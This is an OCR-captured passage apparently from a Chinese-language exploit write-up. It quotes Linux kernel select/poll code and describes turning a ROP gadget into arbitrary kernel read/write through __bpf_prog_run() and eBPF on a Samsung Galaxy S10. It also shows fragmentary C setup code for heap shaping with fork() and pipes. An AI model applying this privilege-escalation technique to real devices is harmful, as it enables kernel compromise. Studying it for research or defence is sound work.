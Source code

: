 ```
                        mask = (*f_op-&gt;poll)(f.file, wait);
                    `}`
                    fdput(f);
                    if ((mask &amp; POLLIN_SET) &amp;&amp; (in &amp; bit)) `{`
                        res_in |= bit;
                        retval++;
...
                    `}`
...
                `}`
            `}`
            if (res_in)
                *rinp = res_in;
            if (res_out)
                *routp = res_out;
            if (res_ex)
                *rexp = res_ex;
            cond_resched();
        `}`
...
        if (retval || timed_out || signal_pending(current))
            break;
...
        if (!poll_schedule_timeout(&amp;table, TASK_INTERRUPTIBLE,
                       to, slack))
            timed_out = 1;
    `}`
...
    return retval;
`}`
```

在内核中找到ROP后，他们进一步使用了eBPF系统，因为如果我们可以将X1寄存器的任意值传递给__bpf_prog_run()，我们就可以通过执行一连串的eBPF指令，来对任意的地址进行读写操作，并调用内核函数。

### 我们使用的方法

我们也像P0一样塑造了堆，但是没有使用binder的fd和用户线程，而是使用了fork()系统调用，因为它也调用了内核例程中的vmalloc。由于我们是在Samsung Galaxy S10 SM-973N上开发的exploit，所以，我们能得到的所有信息，都来自adb bugreport命令。

```
...
  
atomic_int *wait_count;

int parent_pipe[2];
int child_pipe[2];
int trig_pipe[2];

void *read_sleep_func(void *arg)`{`
    atomic_fetch_add(wait_count, 1);
    syscall(__NR_read, trig_pipe[0], 0x41414141, 0x13371337, 0x42424242, 0x43434343);

    return NULL;
`}`

...
  
int main(int argc, char *argv[]) `{`
  	...
    pipe(parent_pipe);
    pipe(child_pipe);
    pipe(trig_pipe);
  	...
```
